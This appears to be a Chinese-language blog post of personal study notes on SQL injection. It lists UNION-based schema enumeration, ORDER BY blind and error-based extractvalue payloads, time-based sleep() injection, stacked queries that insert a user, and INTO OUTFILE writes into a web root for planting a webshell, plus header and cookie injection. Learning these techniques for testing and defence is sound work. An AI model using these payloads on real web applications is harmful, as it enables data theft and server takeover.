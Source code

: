 ```yaml
---
published: true
---
```


### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如：id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。
  可能要求 UNION SELECT 1，2，3，(select table_schema FROM information_schema.TABLES)才能成功
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名
5、知道pass段名有user union select 1，2，3，pass from user

### Order by注入：
当原始sql语句是order by时不能使用union等进行注入
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](https://ljjbloghub.github.io/img/SQL1.jpg)
   
   rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。
2、报错注入
![](ljjbloghub.github.io/img/SQL1.jpg)
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+
3、导入导出文件into outfile参数
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”
    然后考虑上传网马，利用lines terminated by。
    ?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt” terminated by 0x(网马进行16进制转换)
4、延时注入
？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+
#(如果为假，就会有延迟)，if(判断,sleep(),1)为真会有延迟
![]({{site.baseurl}}/         ljjbloghub.github.io/img/SQL1.jpg       )

### 堆叠查询：即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
   id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入


报错信息’）要需求多构造）




### cookie注入：
对cookie的值进行union注入,注意cookie是否经过编码
